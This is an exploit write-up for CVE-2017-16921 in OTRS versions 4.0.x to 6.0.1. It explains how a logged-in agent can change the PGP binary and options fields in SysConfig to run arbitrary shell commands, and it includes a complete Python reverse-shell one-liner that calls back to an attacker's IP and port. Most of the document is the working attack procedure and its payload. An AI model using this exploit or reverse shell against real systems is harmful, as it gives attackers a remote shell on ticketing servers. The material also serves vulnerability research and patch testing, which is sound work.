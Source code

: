 # Exploit Title: OTRS Shell Access 
# Date: 21-01-2018
# Exploit Author: Bæln0rn
# Vendor Homepage: https://www.otrs.com/
# Software Link: http://ftp.otrs.org/pub/otrs/
# Version: 4.0.1 - 4.0.26, 5.0.0 - 5.0.24, 6.0.0 - 6.0.1
# Tested on: OTRS 5.0.2/CentOS 7.2.1511
# CVE : CVE-2017-16921

CVE-2017-16921: 
"In OTRS 6.0.x up to and including 6.0.1, OTRS 5.0.x up to and including 5.0.24, and OTRS 4.0.x up to and including 4.0.26, an attacker who is logged into OTRS as an agent can manipulate form parameters (related to PGP) and execute arbitrary shell commands with the permissions of the OTRS or web server user."

OTRS 5.0.2 PoC:
1. Authenticate to an agent account. <path>/index.pl

2. Open "Admin" tab. <path>/index.pl?Action=Admin

3. Open "SysConfig" link. <path>/index.pl?Action=AdminSysConfig

4. Find the "Crypt:PGP" subgroup. <path>/index.pl?Action=AdminSysConfig;Subaction=Edit;SysConfigSubGroup=Crypt%3A%3APGP;SysConfigGroup=Framework

5. Manipulate form parameters and use "Update" button to save:

"PGP"
-Default: No
-New: Yes

"PGP::Bin"
-Default: /usr/bin/gpg 
-New: <shell command including executables the webserver user has execute permissions for, no options>
-PoC (Reverse Python Shell): /usr/bin/python

"PGP::Options"
-Default: --homedir /opt/otrs/.gnupg/ --batch --no-tty --yes
-New: <any command options>
-PoC (Reverse Python Shell): -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<YOURIP>",<YOURLISTENINGPORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

6. Open "Admin" tab. <path>/index.pl?Action=Admin

7. Open "PGP Keys" to execute saved command.  <path>/index.pl?Action=AdminPGP

Behavior will vary based on commands. The above PoC opened a stable, no TTY, reverse shell under the "apache" user. The page eventually timed out with a 502 error, but the web application seems otherwise unaffected.  Killing the shell before timeout advances the web application to the proper "PGP Management" page. The exploit can be repeated unlimited times with step #7 above.
